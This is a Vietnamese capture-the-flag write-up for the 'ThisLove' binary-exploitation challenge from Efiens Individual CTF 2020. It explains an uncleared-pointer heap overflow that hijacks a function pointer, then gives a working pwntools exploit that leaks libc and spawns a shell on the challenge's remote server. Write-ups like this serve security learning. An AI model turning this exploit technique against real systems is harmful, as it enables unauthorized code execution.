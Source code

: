 # ThisLove (Efiens Individual CTF 2020)



> [ThisLove](https://github.com/th3-5had0w/writeups/raw/main/Efiens_Individual_CTF_2020/ThisLove/thislove)

[Phiên bản libc local (Ubuntu 20.04)](https://github.com/th3-5had0w/writeups/raw/main/Efiens_Individual_CTF_2020/ThisLove/local_libc.so.6)

## Tìm lỗi

#### Đầu tiên là về struct của một Letter object, nó có dạng như thế này:

![pic3](https://github.com/th3-5had0w/writeups/blob/main/Efiens_Individual_CTF_2020/ThisLove/res/pic_3.png)

### Tổng quát chức năng hàm `NewLetter`

#### Ngay sau khi malloc xong 1 struct Letter object thì chương trình sẽ ngay lập tức gán vào tại offset 0 của struct là địa chỉ của các hàm như Sender1, Sender2 hay Sender3. Sau đó sẽ đọc nội dung thư (data do người dùng nhập) vào một vùng mới được malloc và gán con trỏ của vùng dữ liệu đó vào tại offset 0x8 của struct Letter. Đây là pseudo-code:

```C
void __cdecl NewLetter()
{
  int v0; // eax
  int v1; // ebx
  int v2; // eax
  unsigned int Length; // [rsp+Ch] [rbp-14h]

  v0 = Counter++;
  if ( v0 > 2 )
  {
    printf("Sorry, you are blocked!");
    exit(0);
  }
  v1 = Counter - 1;
  LoveLetter[v1] = (Letter *)malloc(0x10uLL);
  v2 = rand() % 3 + 1;
  if ( v2 == 3 )
  {
    LoveLetter[Counter - 1]->Function = Sender3; // gán địa chỉ function vào offset 0 của struct
  }
  else if ( v2 <= 3 )
  {
    if ( v2 == 1 )
    {
      LoveLetter[Counter - 1]->Function = Sender1; // gán địa chỉ function vào offset 0 của struct
    }
    else if ( v2 == 2 )
    {
      LoveLetter[Counter - 1]->Function = Sender2; // gán địa chỉ function vào offset 0 của struct
    }
  }
  printf("Length of letter: ");
  Length = ReadINT();
  if ( Length <= 0x400 )
    p = (char *)malloc(Length);
  if ( p )
  {
    LoveLetter[Counter - 1]->Content = p; // gán con trỏ tới vùng dữ liệu của user input vào offset 8 của struct
    printf("Enter your letter: ");
    ReadSTR(p, Length);
  }
}
```
### Tổng quát chức năng hàm `SendLetter`

#### Còn một hàm quan trọng không kém nữa là hàm `SendLetter`, hàm này sẽ cho phép bạn thực thi hàm tại có địa chỉ offset 0 của struct với tham số là con trỏ tại offset 8 của struct.

```C
void __cdecl SendLetter()
{
  if ( Counter )
    ((void (__fastcall *)(char *))LoveLetter[Counter - 1]->Function)(LoveLetter[Counter - 1]->Content); \\ gọi hàm
  else
    puts("Write a letter first.");
}
```

#### Sau khi nghịch phá binary, đọc asm và xem pseudo-code được một lúc thì mình thấy có 1 đoạn code đáng nghi ngờ trong hàm `NewLetter`

```C
  printf("Length of letter: ");
  Length = ReadINT();
  if ( Length <= 0x400 )
    p = (char *)malloc(Length);
  if ( p )
  {
    LoveLetter[Counter - 1]->Content = p;
    printf("Enter your letter: ");
    ReadSTR(p, Length);
  }
```

#### Ở đây chương trình kiểm tra độ lớn của input (do user nhập vào), mình sẽ tạm gọi là `length`, `length` \< `0x400` thì con trỏ `p` sẽ được gán thành con trỏ của vùng dữ liệu vừa được malloc() với tham số là `length`. Sau đó chương trình sẽ kiểm tra con trỏ `p` có tồn tại hay không, nếu có thì sẽ cho phép người dùng viết dữ liệu vào vùng vừa được malloc.

#### `Hmmmmm, nghe có vẻ bảo mật cao...`

#### Nhưng khoan đã, trong quá trình thực thi, hàm `NewLetter` mỗi khi được gọi đều không clear hay reset lại giá trị của con trỏ `p`, vậy trong lần gọi tiếp theo của hàm `NewLetter` con trỏ `p` sẽ giữ nguyên giá trị của lần gọi hàm `NewLetter` trước đó.

#### `Hmmmmmmmm...`

#### Vậy thì ta chỉ cần gọi hàm `NewLetter` với `length` \< `0x400` duy nhất lần đầu tiên, để chương trình luôn tồn tại con trỏ `p`, sau đó những lần tiếp theo ta có thể truyền vào `length` với độ lớn tùy ý và dữ liệu ta viết vào thì vẫn sẽ bắt đầu tại vị trí của con trỏ `p` từ lần gọi trước của hàm => `Có lỗi overflow ở đây!`

#### Tuy nhiên khi gọi hàm `NewLetter` vào những lần sau, chương trình vẫn sẽ tạo một struct mới, nhưng khi viết dữ liệu thì lại bắt đầu từ con trỏ `p` trong lần gọi hàm đầu tiên (vì những lần sau khi ta nhập `length` > 0x400 thì chương trình sẽ không malloc ra vùng chứa dữ liệu mới => giá trị của con trỏ `p` không bị thay đổi), vậy có nghĩa là ta có thể sử dụng lỗi overflow để ghi đè hết lại giá trị của hàm và tham số gọi hàm trong những struct kế tiếp đó, sau đó thì ta sẽ sử dụng chức năng hàm `SendLetter` để `chạy hàm kèm theo tham số tùy ý`.

#### Vậy là ta đã có thể kiểm soát hoàn toàn luồng thực thi của chương trình với lỗi overflow ở hàm `NewLetter` và chức năng gọi hàm ở hàm `SendLetter`

![pic2](https://github.com/th3-5had0w/writeups/blob/main/Efiens_Individual_CTF_2020/ThisLove/res/pic_2.png)

#### Ở đây chương trình chỉ cho tạo struct 3 lần, đến lần thứ tự sẽ hiện thông báo `Sorry, you are blocked!` và exit.

#### Vậy trong lần gọi hàm `NewLetter` đầu tiên ta sẽ đánh lừa chương trình khởi tạo con trỏ `p`

#### Lần gọi hàm `NewLetter` thứ hai ta sẽ sử dụng lỗi overflow và hàm `SendLetter` để [leak libc](https://github.com/th3-5had0w/writeups/raw/main/Efiens_Individual_CTF_2020/ThisLove/leaked_libc.so)

#### Sau khi đã leak được libc thì lần gọi hàm thứ ba, cũng là lần gọi cuối cùng ta sẽ sử dụng lỗi overflow và hàm `SendLetter` để gọi hàm `system` với tham số là `/bin/sh`

#### Vậy là đã spawn shell thành công trên remote server!!! Đây là code exploit của mình: 

```python
from pwn import *

debug = False

def write(size, payload):
    print(io.recvuntil('choice: '))
    io.sendline('1')
    print(io.recv())
    io.sendline(str(size))
    print(io.recv())
    io.sendline(payload)

def execute():
    print(io.recvuntil('choice: '))
    io.sendline('2')

elf = ELF('./thislove')
if debug:
    io = process('./thislove')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    io = remote('128.199.234.122', 4900)
    libc = ELF('libc.so')

write(6, 'AAAA')
payload = b'A'*32+p64(elf.sym['puts'])+p64(elf.got['puts'])
write(100000, payload)
execute()
libc.address = u64(io.recv(6)+b'\0\0')-libc.sym['puts']
print('LIBC: ', hex(libc.address))
payload = b'A'*64+p64(libc.sym['system'])+p64(next(libc.search(b'/bin/sh')))
write(100000, payload)
execute()
io.interactive()
```

